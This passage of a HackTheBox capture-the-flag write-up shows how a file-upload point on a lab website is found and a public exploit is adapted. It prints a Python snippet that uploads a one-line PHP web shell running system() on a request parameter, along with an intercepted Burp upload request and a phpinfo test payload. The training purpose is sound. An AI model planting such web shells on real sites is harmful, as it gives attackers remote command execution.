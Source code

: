 Looking for vulnerabilities on the website we found a place which we can upload files

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:40:58.png)

We try to upload a simple XML file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:48:15.png)

And it's uploaded normally

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2007:53:09.png)

### Change Exploit

With the exploit in mind, and knowing the injection point, let's try to reproduce the exploit, because if we just execute the exploit it did not work well

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:08:11.png)

We see the file it tryes to upload is this

```py
files = {
        'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

Ok, really seems to be a legit file upload, as we see on the burp request

```
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="token"

db82b215dd29dae34d14deb5b014f4e1b85f42e4
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="vqmod"; filename="list.xml"
Content-Type: text/xml

TEST FILE
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="upload"

Upload
-----------------------------371541395921355354921510851860--
```

Let's try to simple reproduce it on burp, but now with a `<?php phpinfo(); ?>` cmd, we interpect an upload request on burp suite, and make the changes

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:30:35.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:30:40.png)
